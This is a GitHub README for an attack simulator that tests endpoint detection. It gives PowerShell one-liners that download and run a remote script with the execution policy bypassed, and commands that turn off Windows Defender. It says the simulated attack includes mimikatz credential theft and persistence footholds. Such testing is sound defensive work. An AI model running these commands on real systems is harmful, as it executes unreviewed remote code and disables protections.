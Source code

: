 ## Datto EDR Behavioral Attack Simulator
**Platform:** Microsoft Windows 7+ or Server 2008+\
**Powershell Version:** 3.0+\
**.NET Version:** 4.5+

This script will execute several MITRE ATT&CK adversarial behaviors and add several footholds/Autoruns which are pointed at non-malware (calculator and cmd.exe).  The only malicous software run is mimikatz (steals passwords from memory) which will not persist.


The following command is all you need.  Run it on any windows system and it will download this script and execute it.  


> `[System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1")`

OR If running from outside Powershell (like in cmd.exe or a batch script):
> `powershell.exe -ExecutionPolicy bypass -noprofile -nologo -command { [System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1") }`


While the script will attempt to disable MS Defender in the evasion step, you may need to proactively disable your endpoint protection prior to running this initial command to let it through:

> `powershell.exe -command 'Set-MpPreference -DisableRealtimeMonitoring $true'`
> 
> `sc stop WinDefend`

Restore Defender:
> `sc start WinDefend`
> 
> `powershell.exe -command 'Set-MpPreference -DisableRealtimeMonitoring $false'`


### WARNING: This script will leave your system in a messy state with some persist footholds set to launch calculators at varying times in the future. Run the cleanup script to remove these. 


### Cleanup Script:
Some persist footholds are left on systems in order to test non-realtime foothold scanning. Run this to remove them:
> `[System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript_fullrestore.ps1")`


OR if running from outside Powershell (like in cmd.exe or a batch script):
> `powershell.exe -ExecutionPolicy bypass -noprofile -nologo -command { [System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript_fullrestore.ps1") }`
